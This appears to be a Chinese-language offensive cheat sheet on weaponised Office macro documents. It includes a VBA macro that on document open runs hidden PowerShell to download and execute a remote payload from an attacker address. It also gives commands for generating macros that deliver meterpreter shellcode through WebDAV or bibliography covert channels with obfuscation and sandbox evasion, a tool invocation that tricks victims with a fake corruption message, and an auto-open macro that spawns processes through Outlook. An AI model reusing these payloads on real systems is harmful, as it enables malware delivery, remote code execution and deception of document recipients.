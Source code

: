 ## DOCM - 下载并执行

> 被Defender（AMSI）检测到

```ps1
Sub Execute()
Dim payload
payload = "powershell.exe -nop -w hidden -c [System.Net.ServicePointManager]::ServerCertificateValidationCallback={$true};$v=new-object net.webclient;$v.proxy=[Net.WebRequest]::GetSystemWebProxy();$v.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $v.downloadstring('http://10.10.10.10:4242/exploit');"
Call Shell(payload, vbHide)
End Sub
Sub Document_Open()
Execute
End Sub
```

## DOCM - 宏创建器

* [GitHub链接](https://github.com/Arno0x/PowerShellScripts/tree/master/MacroCreator)

```ps1
# Shellcode嵌入到MS-Word文档正文中，无混淆，无沙箱逃逸：
C:\PS> Invoke-MacroCreator -i meterpreter_shellcode.raw -t shellcode -d body
# 通过WebDAV隐蔽通道传递Shellcode，带混淆，无沙箱逃逸：
C:\PS> Invoke-MacroCreator -i meterpreter_shellcode.raw -t shellcode -url webdavserver.com -d webdav -o
# 通过参考文献源隐蔽通道传递Scriptlet，带混淆，带沙箱逃逸：
C:\PS> Invoke-MacroCreator -i regsvr32.sct -t file -url 'http://my.server.com/sources.xml' -d biblio -c 'regsvr32 /u /n /s /i:regsvr32.sct scrobj.dll' -o -e
```

## DOCM - C#转换为Office VBA宏

> 会提示用户文件损坏并自动关闭Excel文档。这是正常行为！这是在欺骗受害者认为Excel文档已损坏。

[GitHub链接](https://github.com/trustedsec/unicorn)

```ps1
python unicorn.py payload.cs cs macro
```

## DOCM - VBA Wscript

> [相关链接](https://www.darkoperator.com/blog/2017/11/11/windows-defender-exploit-guard-asr-rules-for-office)

```ps1
Sub parent_change()
    Dim objOL
    Set objOL = CreateObject("Outlook.Application")
    Set shellObj = objOL.CreateObject("Wscript.Shell")
    shellObj.Run("notepad.exe")
End Sub
Sub AutoOpen()
    parent_change
End Sub
Sub Auto_Open()
    parent_change
End Sub
```
